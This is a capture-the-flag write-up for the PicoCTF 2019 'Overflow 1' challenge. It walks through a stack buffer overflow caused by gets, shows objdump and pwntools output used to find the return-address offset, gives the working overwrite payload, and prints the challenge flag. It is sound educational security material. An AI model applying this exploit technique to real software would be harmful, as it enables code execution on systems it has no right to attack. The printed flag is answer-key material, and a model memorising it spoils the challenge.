 # Overflow 1 | PicoCTF2019
## Problem
You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this program? You can find it in /problems/overflow-1_0_48b13c56d349b367a4d45d7d1aa31780 on the shell server.

## Solution
1. Read the code to understand what's going on, see that it's using gets to store a value up to 64 bytes in size, then jumping to an address from there, which we can overwrite on the stack.

2. Use objdump to find the address of the flag function.
```bash
$ objdump -D vuln
...

080485e6 <flag>:
 80485e6:       55                      push   %ebp
 80485e7:       89 e5                   mov    %esp,%ebp
 80485e9:       53                      push   %ebx

...

```

3. We can find the correct offset by running a cyclic pattern.
```bash
$ python -c "from pwn import cyclic; print(cyclic(80))" | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x61616174 !
Segmentation fault

$ python -c "from pwn import cyclic_find; print(cyclic_find(0x61616174))"
76
```

4. Run the exploit at the right offset.
```bash
$ python -c "print('A' * 76 + '\xe6\x85\x04\x08')" | ./vuln
```
```
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
Flag File is Missing. please contact an Admin if you are running this on the shell server.
```

5. Run it on the server to win.
```bash
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a1b468a7}
```